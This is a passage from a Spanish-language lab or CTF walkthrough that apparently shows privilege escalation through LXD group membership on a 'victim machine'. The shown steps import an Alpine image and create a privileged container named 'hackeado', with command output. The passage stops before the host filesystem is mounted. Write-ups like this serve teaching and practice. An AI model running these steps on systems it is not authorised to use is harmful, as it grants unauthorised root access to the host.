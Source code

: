 * Importamos la imagen:
```bash
concebolla@tortillapapas:~$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myImage
Image imported with fingerprint: cd73881adaac667...
```
Nota: aquí había descubierto que existe la misma imagen dentro de la máquina víctima, por lo que, para probar este método, decidí eliminarla con el comando `lxc image delete myimage`.

* Revisamos que la imagen esté instalada:
```bash
concebolla@tortillapapas:~$ lxc image list
+---------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |                 DESCRIPTION                 | ARCHITECTURE |   TYPE    |   SIZE   |          UPLOAD DATE          |
+---------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
| myimage | cd73881adaac | no     | alpine v3.13 (20210218_01:39)               | x86_64       | CONTAINER | 3.11MB   | Apr 15, 2024 at 11:22am (UTC) |
+---------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
|         | 712a58368655 | no     | ubuntu 16.04 LTS amd64 (release) (20211001) | x86_64       | CONTAINER | 171.55MB | Mar 23, 2025 at 7:38am (UTC)  |
+---------+--------------+--------+---------------------------------------------+--------------+-----------+----------+-------------------------------+
```
La otra imagen que aparece ahí, es del ejemplo anterior donde ocupamos internet.

* Creando un **contenedor LXC**(`lxc init`) llamado **hackeado** (nombre del contenedor) basado en la imagen **Alpine** que descargamos desde nuestra máquina y configurándolo como privilegiado (`-c security.privileged=true`):
```bash
concebolla@tortillapapas:~$ lxc init myImage hackeado -c security.privileged=true
Creating hackeado
```

* Revisamos que se haya creado el contenedor:
```bash
concebolla@tortillapapas:~$ lxc ls
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
|   NAME   |  STATE  |        IPV4         |                     IPV6                      |   TYPE    | SNAPSHOTS |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| hackeado | STOPPED |                     |                                               | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| ignite   | RUNNING |        XXXX  (eth0) |                     XXXX               (eth0) | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
| test     | RUNNING |                     |                     XXXX               (eth0) | CONTAINER | 0         |
+----------+---------+---------------------+-----------------------------------------------+-----------+-----------+
```
Ahí está el contenedor del ejemplo anterior.
